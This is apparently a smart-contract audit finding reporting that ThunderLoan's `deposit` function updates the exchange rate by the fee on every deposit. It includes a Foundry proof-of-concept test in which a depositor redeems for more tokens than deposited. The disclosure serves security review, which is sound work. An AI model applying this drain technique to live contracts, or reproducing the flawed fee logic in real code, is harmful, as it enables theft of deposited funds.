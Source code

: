 

## H-02.The location where the fee is calculated may lead to loss of funds

### Summary

The fee is calculated in the ` deposit ` function,and the fee keeps increasing.This allows attackers to immediately ` redeem ` tokens and easily obtain more tokens.



### Vulnerability Details

In ` ThunderLoan.sol `,the ` deposit ` function immediately calculates the fee after the user deposits.

This will allow anyone who deposits to immediately redeem and get more tokens than they deposited.Underlying of any assert token can be completely drained in this manner.

```solidity
// ThunderLoan.sol
function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
    ...
    uint256 calculatedFee = getCalculatedFee(token, amount);
    assetToken.updateExchangeRate(calculatedFee);
    ...
}
```



### Proof of Concept

#### Test Case

```solidity
function testUpdateFeeOnDeposit() public setAllowedToken {
    AssetToken assetToken = thunderLoan.getAssetFromToken(tokenA);
    console.log("Init fee:", vm.toString(assetToken.getExchangeRate()));
    tokenA.mint(liquidityProvider, AMOUNT);
    tokenA.mint(user, AMOUNT);

    vm.startPrank(liquidityProvider);
    tokenA.approve(address(thunderLoan), AMOUNT);
    thunderLoan.deposit(tokenA, AMOUNT);
    vm.stopPrank();

    vm.startPrank(user);
    tokenA.approve(address(thunderLoan), AMOUNT);
    thunderLoan.deposit(tokenA, AMOUNT);
    vm.stopPrank();

    console.log("After fee:", vm.toString(assetToken.getExchangeRate()));

    vm.startPrank(liquidityProvider);
    thunderLoan.redeem(tokenA, assetToken.balanceOf(liquidityProvider));
    vm.stopPrank();

    // assertGt(tokenA.balanceOf(liquidityProvider), AMOUNT);
    console.log("Before Amount:", vm.toString(AMOUNT));
    console.log("After Amount:", vm.toString(tokenA.balanceOf(liquidityProvider)));
}
```

